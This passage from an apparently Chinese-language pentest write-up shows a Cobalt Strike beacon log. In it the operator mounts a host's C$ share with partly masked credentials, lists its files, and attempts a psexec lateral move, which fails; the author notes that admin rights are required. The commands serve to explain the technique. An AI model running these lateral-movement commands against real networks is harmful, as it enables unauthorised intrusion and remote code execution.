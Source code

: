 ```
beacon> shell net use \\192.168.0.134\C$ /user:"DT****\ir***ervice" "i*****123"
[*] Tasked beacon to run: net use \\192.168.0.134\C$ /user:"DTG***M\ir***ervice" "i*****123"
[+] host called home, sent: 101 bytes
[+] received output:
The command completed successfully.


# 注：这条命令的回显我省略了部分
beacon> ls \\192.168.0.134\C$
[*] Tasked beacon to list files in \\192.168.0.134\C$
[+] host called home, sent: 36 bytes
[*] Listing: \\192.168.0.134\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     05/17/2019 14:30:58   $Recycle.Bin
          dir     01/30/2013 21:18:26   Backup CA
          dir     01/14/2015 18:01:19   Backup Exec AOFO Store
       
beacon> jump psexec64 192.168.0.134 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_98d5) on 192.168.0.134 via Service Control Manager (\\192.168.0.134\ADMIN$\773c614.exe)
[+] host called home, sent: 289492 bytes
[-] Could not open service control manager on 192.168.0.134: 5
[-] Could not connect to pipe: 2
```

![title](https://leanote.com/api/file/getImage?fileId=5ee211ddab644168ab000afc)


所以说必须是有了想要横向的那台主机的管理员权限才可以！！！


-------------------


# 参考文档：


1. CobatStrike 各个协议监听器及 payload 详细用法，Klion **[星球文章请勿向我索要]**
2. [CobaltStrike4.0用户手册_中文翻译](https://blog.ateam.qianxin.com/CobaltStrike4.0%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C_%E4%B8%AD%E6%96%87%E7%BF%BB%E8%AF%91.pdf)，QAX-A TEAM